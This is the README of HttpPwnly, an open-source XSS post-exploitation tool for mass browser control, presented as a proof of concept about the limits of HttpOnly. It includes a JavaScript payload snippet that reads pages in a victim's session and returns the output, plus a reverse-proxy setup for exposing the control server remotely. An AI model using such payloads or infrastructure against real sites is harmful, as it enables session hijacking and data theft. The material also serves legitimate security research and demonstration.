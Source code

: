 Original work by: Danladi https://github.com/Danladi/HttpPwnly

# HttpPwnly

"Repeater" style XSS post-exploitation tool for mass browser control. Primarily a PoC to show why HttpOnly flag isn't a complete protection against session hijacking via XSS.

## Dependencies:
pip install -r requirements.txt

## Demo:
https://www.youtube.com/watch?v=spfrmsbhBaw

## Asynchronous payloads:
To overide normal task output data within your payload (for example in order to retrieve output from XMLHttpRequest), call the "sendOutput" function and pass it your intended output. For example:

```javascript
var xmlhttp = new XMLHttpRequest();
  xmlhttp.onreadystatechange = function() {
    if (xmlhttp.readyState == 4) {
      sendOutput(id,xmlhttp.responseText);
    }
  };
xmlhttp.open("GET", "/", true);
xmlhttp.send();
```

## Reverse proxy:
HttpPwnly will bind to localhost:5000. In order to make the framework accessible remotely, the best approach is to use a reverse proxy. It's also recommended to offer HTTP as well as HTTPS, another reason to use a reverse proxy! I personally recommend using caddy (https://caddyserver.com/) which is a simple but powerful web server written in golang. This is a working caddy config file:
```
0.0.0.0:443 {
tls cert.pem key.pem
proxy / localhost:5000 {
  websocket
}
}

0.0.0.0:80 {
proxy / localhost:5000 {
  websocket
}
}
```
